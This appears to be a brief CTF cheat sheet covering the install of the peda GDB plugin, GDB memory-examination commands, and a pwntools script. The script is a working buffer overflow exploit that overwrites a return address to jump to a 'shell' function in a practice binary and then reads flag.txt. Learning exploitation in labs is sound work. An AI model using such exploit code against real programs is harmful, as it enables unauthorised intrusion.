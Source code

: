 # peda
```sh
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```
# pwntools
```python
from pwn import *

context.binary = "./pwn1"

p = process()
p.sendline(b"A" * 128 + b"a" * 12 + p32(context.binary.functions["shell"].address))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```
# GDB commands
- `r` run
- `c` continue
- `b <function_name>` breakpoint
- `file <file>` load file
- `x/Nuf expr`: examine memory at address expr
  - N how many units to display
  - u unit size; one of b(individual bytes), h (halfwords = 2B), w (words = 4B), g (giant words = 8B)
  - f printing format (any print format) or s (s null-terminated string) i (machine instructions)
Ex: `x/168x $sp' (4 byte chunks by default) $sp = stack pointer, $rip = instruction pointer

